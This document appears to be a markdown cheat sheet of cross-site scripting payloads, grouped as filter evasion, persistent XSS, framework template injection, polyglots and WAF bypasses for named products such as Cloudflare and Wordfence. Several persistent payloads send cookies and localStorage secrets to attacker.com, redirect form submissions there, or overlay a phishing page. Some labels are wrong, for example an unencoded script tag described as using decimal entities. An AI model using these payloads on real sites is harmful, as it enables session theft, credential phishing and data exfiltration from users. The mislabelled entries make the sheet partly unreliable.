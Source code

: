 ## Filter Evasion Techniques
| Payload | Type | Bypass Technique |
|---------|------|------------------|
| `<ScRiPt>alert('XSS')</ScRiPt>` | Reflected | Case manipulation |
| `<img src=x oneonerrorrror=alert('XSS')>` | Reflected | Obfuscated attribute |
| `<script>alert(1)</script>` | Reflected | Decimal HTML entities |
| `<iframe src="javas&Tab;cript:alert('XSS')">` | Reflected | Tab separation |

## Advanced Persistent XSS
| Payload | Type | Impact |
|---------|------|--------|
| `<script>new Image().src="http://attacker.com/?c="+document.cookie;</script>` | Persistent | Cookie theft |
| `<script>setInterval(function(){document.forms[0].action='http://attacker.com/steal';},5000)</script>` | Persistent | Form hijacking |
| `<iframe style="position:fixed;top:0;left:0;width:100%;height:100%" src="http://attacker.com/phish"></iframe>` | Persistent | Full-page overlay |
| `<script>navigator.sendBeacon('http://attacker.com/log', localStorage.getItem('secrets'))</script>` | Persistent | Data exfiltration |

## Framework-Specific Payloads
| Payload | Type | Target |
|---------|------|--------|
| `{{constructor.constructor('alert("XSS")')()}}` | AngularJS | Template injection |
| `<div ng-app ng-csp><div ng-click=$event.view.alert('XSS')>CLICK</div></div>` | AngularJS | ng-click event |
| `#{7*7}` | Ruby ERB | Template injection |
| `<%= 7 * 7 %>` | Ruby ERB | Server-side eval |

## Polyglot XSS Payloads
| Payload | Contexts |
|---------|----------|
| `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>` | HTML/JS/SVG |
| `';alert('XSS')//';alert('XSS')//";alert('XSS')//";alert('XSS')//--></SCRIPT>">'><SCRIPT>alert('XSS')</SCRIPT>` | Multiple contexts |
| `<img/src="x"/onerror=alert('XSS')>` | Minimal syntax |

## WAF Bypass Payloads
| Payload | Bypass Target |
|---------|--------------|
| `<script/xss src="data:,alert('XSS')"></script>` | Cloudflare |
| `<svg/onload=location='javascript:alert\u00281\u0029'>` | Akamai |
| `<div data-html=javascript:alert('XSS')></div>` | ModSecurity |
| `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click</a>` | Wordfence |
